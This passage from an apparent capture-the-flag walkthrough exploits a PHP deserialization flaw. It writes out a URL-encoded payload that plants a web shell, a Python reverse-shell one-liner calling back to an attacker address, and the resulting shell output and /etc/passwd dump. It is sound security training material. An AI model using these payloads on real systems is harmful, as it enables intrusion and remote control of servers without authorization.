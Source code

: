 Here the URL-encoded form:

http://10.10.10.223/sator.php?arepo=O:14:%22DatabaseExport%22:2:{s:9:%22user_file%22;s:9:%22cyfun.php%22;s:4:%22data%22;s:28:%22%3C?php%20system($_GET[%22cmd%22])?%3E%22;}

Then we can access teh webshell and execute a command: http://10.10.10.223/cyfun.php?cmd=id

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We know the upload and command exec works so let's execute a reverse shell:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.44",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We receive it on our reverse shell:

```
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
id
INFO: Client connected from 10.10.10.223:59112 (family 2/IPv4, TCP)
/bin/sh: 0: can't access tty; job control turned off
$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`cat /etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
neil:x:1001:1001:neil,,,:/home/neil:/bin/bash
```
